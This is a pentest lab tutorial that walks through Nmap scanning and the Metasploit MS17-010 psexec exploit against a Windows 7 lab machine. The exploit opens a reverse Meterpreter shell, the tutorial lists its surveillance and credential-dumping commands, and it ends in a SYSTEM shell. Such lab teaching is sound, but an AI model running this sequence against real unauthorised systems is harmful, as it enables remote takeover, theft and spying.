

# Metasploit framework

1. Goal
    * Getting a brief introduction into the Metasploit Framework.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 laptop with Windows 7

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    

5. Getting started

    1. Metasploit framework is the most popular open source tool for pentesting.
    Metasploit framework contains collections of exploits, payloads, and encoders that can be used to identify and exploit vulnerabilities during a pentest project.

    [More information about Metasploit framework](https://github.com/rapid7/metasploit-framework/wiki)
 
    2. Check the IP address of the victim.

    ```
    C:\Users\TEST>ipconfig
    
    Windows IP-configuratie
    
    Ethernet-adapter voor LAN-verbinding:

        Verbindingsspec. DNS-achtervoegsel: lan
        IPv4-adres. . . . . . . . . . . . : 192.168.1.22
        Subnetmasker. . . . . . . . . . . : 255.255.255.0
        Standaardgateway. . . . . . . . . : 192.168.1.1

    C:\Users\TEST>
    ```
    3. Start a port scan using Nmap.(Kali Linux)
   
    [More information about Nmap](https://nmap.org/)
    
    ```
    kali@kali:~# nmap 192.168.1.22
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-09 10:33 CEST
    Nmap scan report for TEST-PC.lan (192.168.1.22)
    Host is up (0.0019s latency).
    Not shown: 990 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    5357/tcp  open  wsdapi
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49155/tcp open  unknown
    49156/tcp open  unknown
    49158/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
    kali@kali:~# 
    ```
    4. Start Metasploit framework.(KALI Linux)

    

    

    5. Select an exploit. For instance ms17_010_psexec.

    ```
    msf5 > search ms17_010_psexec

    Matching Modules                                                ================                                                                                                                                                                                                    
    #  Name                                 Disclosure Date  Rank   Check   Description                                 
    -  ----                                 ---------------  ----   -----   -----------
    0  exploit/windows/smb/ms17_010_psexec  2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

    msf5 > 
    msf5 > use exploit/windows/smb/ms17_010_psexec
    msf5 exploit(windows/smb/ms17_010_psexec) > 

    msf5 exploit(windows/smb/ms17_010_psexec) > info

              Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
            Module: exploit/windows/smb/ms17_010_psexec
          Platform: Windows
              Arch: x86, x64
        Privileged: No
           License: Metasploit Framework License (BSD)
              Rank: Normal
         Disclosed: 2017-03-14

    Provided by:
        sleepya
        zerosum0x0
        Shadow Brokers
        Equation Group

    Available targets:
        Id  Name
        --  ----
        0   Automatic
        1   PowerShell
        2   Native upload
        3   MOF upload

    Check supported:
        Yes

    Basic options:
        Name                  Current Setting                                                 Required  Description
        ----                  ---------------                                                 --------  -----------
        DBGTRACE              false                                                           yes       Show extra debug trace info
        LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
        NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
        NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
        RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
        RPORT                 445                                                             yes       The Target port
        SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
        SERVICE_DISPLAY_NAME                                                                  no        The service display name
        SERVICE_NAME                                                                          no        The service name
        SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
        SMBDomain             .                                                               no        The Windows domain to use for authentication
        SMBPass                                                                               no        The password for the specified username
        SMBUser                                                                               no        The username to authenticate as

    Payload information:
        Space: 3072

    Description:
        This module will exploit SMB with vulnerabilities in MS17-010 to 
        achieve a write-what-where primitive. This will then be used to 
        overwrite the connection session information with as an 
        Administrator session. From there, the normal psexec payload code 
        execution is done. Exploits a type confusion between Transaction and 
        WriteAndX requests and a race condition in Transaction requests, as 
        seen in the EternalRomance, EternalChampion, and EternalSynergy 
        exploits. This exploit chain is more reliable than the EternalBlue 
        exploit, but requires a named pipe.

    References:
        https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
        https://cvedetails.com/cve/CVE-2017-0143/
        https://cvedetails.com/cve/CVE-2017-0146/
        https://cvedetails.com/cve/CVE-2017-0147/
        https://github.com/worawit/MS17-010
        https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
        https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

    Also known as:
        ETERNALSYNERGY
        ETERNALROMANCE
        ETERNALCHAMPION
        ETERNALBLUE

    msf5 exploit(windows/smb/ms17_010_psexec) >
    ``` 
    6. Set some options.
    ```
    msf5 exploit(windows/smb/ms17_010_psexec) > set rhost 192.168.1.22
    rhost => 192.168.1.22
    msf5 exploit(windows/smb/ms17_010_psexec) > set SMBUser TEST
    SMBUser => TEST
    msf5 exploit(windows/smb/ms17_010_psexec) > set SMBPass Easy
    SMBPass => Easy
    ```
    7. Launch the exploit
    ```
    msf5 exploit(windows/smb/ms17_010_psexec) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444 
    [*] 192.168.1.22:445 - Authenticating to 192.168.1.22 as user 'TEST'...
    [*] 192.168.1.22:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
    [*] 192.168.1.22:445 - Built a write-what-where primitive...
    [+] 192.168.1.22:445 - Overwrite complete... SYSTEM session obtained!
    [*] 192.168.1.22:445 - Selecting PowerShell target
    [*] 192.168.1.22:445 - Executing the payload...
    [+] 192.168.1.22:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Sending stage (180291 bytes) to 192.168.1.22
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.22:49172) at 2020-04-09 13:43:51 +0200

    meterpreter > 
    ```
    8. Display the Meterpreter help menu.
    ```
    meterpreter > help

    Core Commands
    =============

        Command                   Description
        -------                   -----------
        ?                         Help menu
        background                Backgrounds the current session
        bg                        Alias for background
        bgkill                    Kills a background meterpreter script
        bglist                    Lists running background scripts
        bgrun                     Executes a meterpreter script as a background thread
        channel                   Displays information or control active channels
        close                     Closes a channel
        disable_unicode_encoding  Disables encoding of unicode strings
        enable_unicode_encoding   Enables encoding of unicode strings
        exit                      Terminate the meterpreter session
        get_timeouts              Get the current session timeout values
        guid                      Get the session GUID
        help                      Help menu
        info                      Displays information about a Post module
        irb                       Open an interactive Ruby shell on the current session
        load                      Load one or more meterpreter extensions
        machine_id                Get the MSF ID of the machine attached to the session
        migrate                   Migrate the server to another process
        pivot                     Manage pivot listeners
        pry                       Open the Pry debugger on the current session
        quit                      Terminate the meterpreter session
        read                      Reads data from a channel
        resource                  Run the commands stored in a file
        run                       Executes a meterpreter script or Post module
        secure                    (Re)Negotiate TLV packet encryption on the session
        sessions                  Quickly switch to another session
        set_timeouts              Set the current session timeout values
        sleep                     Force Meterpreter to go quiet, then re-establish session.
        transport                 Change the current transport mechanism
        use                       Deprecated alias for "load"
        uuid                      Get the UUID for the current session
        write                     Writes data to a channel


    Stdapi: File system Commands
    ============================

        Command       Description
        -------       -----------
        cat           Read the contents of a file to the screen
        cd            Change directory
        checksum      Retrieve the checksum of a file
        cp            Copy source to destination
        dir           List files (alias for ls)
        download      Download a file or directory
        edit          Edit a file
        getlwd        Print local working directory
        getwd         Print working directory
        lcd           Change local working directory
        lls           List local files
        lpwd          Print local working directory
        ls            List files
        mkdir         Make directory
        mv            Move source to destination
        pwd           Print working directory
        rm            Delete the specified file
        rmdir         Remove directory
        search        Search for files
        show_mount    List all mount points/logical drives
        upload        Upload a file or directory


    Stdapi: Networking Commands
    ===========================

        Command       Description
        -------       -----------
        arp           Display the host ARP cache
        getproxy      Display the current proxy configuration
        ifconfig      Display interfaces
        ipconfig      Display interfaces
        netstat       Display the network connections
        portfwd       Forward a local port to a remote service
        resolve       Resolve a set of host names on the target
        route         View and modify the routing table


    Stdapi: System Commands
    =======================

        Command       Description
        -------       -----------
        clearev       Clear the event log
        drop_token    Relinquishes any active impersonation token.
        execute       Execute a command
        getenv        Get one or more environment variable values
        getpid        Get the current process identifier
        getprivs      Attempt to enable all privileges available to the current process
        getsid        Get the SID of the user that the server is running as
        getuid        Get the user that the server is running as
        kill          Terminate a process
        localtime     Displays the target system's local date and time
        pgrep         Filter processes by name
        pkill         Terminate processes by name
        ps            List running processes
        reboot        Reboots the remote computer
        reg           Modify and interact with the remote registry
        rev2self      Calls RevertToSelf() on the remote machine
        shell         Drop into a system command shell
        shutdown      Shuts down the remote computer
        steal_token   Attempts to steal an impersonation token from the target process
        suspend       Suspends or resumes a list of processes
        sysinfo       Gets information about the remote system, such as OS


    Stdapi: User interface Commands
    ===============================

        Command        Description
        -------        -----------
        enumdesktops   List all accessible desktops and window stations
        getdesktop     Get the current meterpreter desktop
        idletime       Returns the number of seconds the remote user has been idle
        keyboard_send  Send keystrokes
        keyevent       Send key events
        keyscan_dump   Dump the keystroke buffer
        keyscan_start  Start capturing keystrokes
        keyscan_stop   Stop capturing keystrokes
        mouse          Send mouse events
        screenshare    Watch the remote user's desktop in real time
        screenshot     Grab a screenshot of the interactive desktop
        setdesktop     Change the meterpreters current desktop
        uictl          Control some of the user interface components


    Stdapi: Webcam Commands
    =======================

        Command        Description
        -------        -----------
        record_mic     Record audio from the default microphone for X seconds
        webcam_chat    Start a video chat
        webcam_list    List webcams
        webcam_snap    Take a snapshot from the specified webcam
        webcam_stream  Play a video stream from the specified webcam


    Stdapi: Audio Output Commands
    =============================

        Command       Description
        -------       -----------
        play          play an audio file on target system, nothing written on disk


    Priv: Elevate Commands
    ======================

        Command       Description
        -------       -----------
        getsystem     Attempt to elevate your privilege to that of local system.


    Priv: Password database Commands
    ================================

        Command       Description
        -------       -----------
        hashdump      Dumps the contents of the SAM database


    Priv: Timestomp Commands
    ========================

        Command       Description
        -------       -----------
        timestomp     Manipulate file MACE attributes

    meterpreter > 
    ```
    9. Get into a system command shell
    ```
    meterpreter > shell
    Process 2288 created.
    Channel 2 created.
    Microsoft Windows [versie 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation. Alle rechten voorbehouden.

    C:\Windows\system32>


    C:\Windows\system32>whoami
    whoami
    nt authority\system

    C:\Windows\system32>

6. Conclusion
    * Metasploit framework is a solid foundation that you can build upon and easily customize to meet your needs.
    
    [More information about Metasploit framework](https://www.offensive-security.com/metasploit-unleashed/)
